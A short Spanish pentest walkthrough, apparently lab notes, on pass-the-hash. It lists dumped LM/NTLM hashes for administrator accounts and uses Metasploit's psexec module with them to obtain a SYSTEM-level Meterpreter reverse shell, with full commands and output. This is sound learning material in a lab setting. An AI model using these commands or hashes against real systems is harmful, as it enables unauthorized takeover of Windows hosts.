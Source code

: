> Hash LM y NTLM

```
Administrador = aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6
diseo = aad3b435b51404eeaad3b435b51404ee:b1f702c125f162ed66636c7d825429e2
```

## <mark style="color:purple;">Conectarnos por SMB con los hashes</mark>

```shell
search psexec
```

Seleccionamos el exploit.

```shell
use exploit/windows/smb/psexec
```

Configuramos el exploit, añadiendo el usuario y los hashes LM y NTLM como contraseña del administrador y el target el que veis.

```shell
set RHOSTS <IP>
set SMBUser Administrador
set SMBPass aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6
set target Native\ upload
```

Ejecutamos el exploit.

```shell
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:4444 
[*] 192.168.5.141:445 - Connecting to the server...
[*] 192.168.5.141:445 - Authenticating to 192.168.5.141:445 as user 'Administrador'...
[!] 192.168.5.141:445 - peer_native_os is only available with SMB1 (current version: SMB2)
[*] 192.168.5.141:445 - Uploading payload... WHSNLJPY.exe
[*] 192.168.5.141:445 - Created \WHSNLJPY.exe...
[*] Sending stage (176198 bytes) to 192.168.5.141
[+] 192.168.5.141:445 - Service started successfully...
[*] 192.168.5.141:445 - Deleting \WHSNLJPY.exe...
[*] Meterpreter session 3 opened (192.168.5.199:4444 -> 192.168.5.141:49216) at 2024-07-30 17:23:22 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Y con esto ya nos habriamos autenticado como administradores mediante SMB y los hashes que dumpeamos con kiwi.
